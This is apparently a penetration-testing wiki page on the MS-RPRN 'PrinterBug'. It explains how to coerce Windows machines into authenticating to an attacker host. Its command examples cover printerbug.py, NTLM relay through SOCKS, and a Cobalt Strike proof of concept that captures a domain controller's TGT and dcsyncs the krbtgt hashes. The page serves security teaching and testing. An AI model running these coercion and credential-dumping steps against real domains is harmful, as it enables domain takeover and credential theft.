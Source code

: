 # MS-RPRN abuse (PrinterBug)

## Theory

At DerbyCon 2018 Will Schroeder, Lee Christensen and Matt Nelson gave a presentation called "The Unintended Risks of Trusting Active Directory". Within that talk, they demonstrated how an adversary can coerce any machine in a forest to authenticate to another machine in the forest, via a means they dubbed "the printer bug".

The MS-RPRN Print System Remote Protocol (hence the cute name) defines the communications for print job processing and print system management between a print client and a print server. Lee used **RpcRemoteFindFirstPrinterChangeNotificationEx()**, to set up a change notification between a print server (_Machine A_) and a print client (_Machine B_). This caused _Machine A_ to authenticate to _Machine B_.

If _Machine B_ is configured with unconstrained delegation, this would allow us to capture the TGT of _Machine A_. With a TGT for _Machine A_, we can craft service tickets to access any service on _Machine A_ as a local administrator. And of course if _Machine A_ is a domain controller, we will gain Domain Admin level privilege.

Furthermore, this RPC service is accessible by all domain users, is enabled by default since Windows 8 and won't be fixed by Microsoft since it's "by design".

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}



### POC

On SRV-1:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Target user     : DC-2$
[*] Monitoring every 10 seconds for new TGTs
```

On WKSTN-1:

```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv-1

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

Where:

* `dc-2` is the "target" server
* `srv-1` is the "capture" server

```
[*] 3/9/2021 12:00:07 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 10:27:15 AM
  EndTime               :  3/9/2021 8:27:13 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

    doIFLz [...snip...] MuSU8=

[*] Ticket cache size: 1
```

```
beacon> make_token DEV\DC-2$ FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-2.kirbi

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}
